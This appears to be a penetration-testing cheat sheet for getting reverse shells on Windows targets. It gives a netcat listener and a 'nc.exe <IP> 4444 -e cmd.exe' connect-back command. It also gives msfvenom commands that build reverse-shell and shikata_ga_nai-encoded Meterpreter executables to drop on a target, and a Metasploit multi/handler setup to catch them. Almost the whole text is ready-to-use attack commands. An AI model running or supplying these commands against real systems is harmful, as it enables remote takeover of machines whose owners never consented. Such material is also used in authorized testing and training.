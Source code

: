 ### Windows

#### Netcat

Will have to transfer a nc.exe binary to the Windows machine.

#### Listen

```bash
# Listen from Attacker
nc -lvnp 4444
# Connect from Target
nc.exe <IP> 4444 -e cmd.exe
```

## MSFvenom

### Generate Shellcode

Create Executable to drop on Windows target

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe > wince.exe
```

Upload wince.exe to the Windows target

Start netcat listener

Execute `wince.exe` from the Windows target

### Encoder

#### Windows

Create Meterpreter shell executable

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe > winmet.exe
```

Upload winmet.exe to the Windows target

Set up a Meterpreter Listener

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Execute winmet.exe from the Windows target
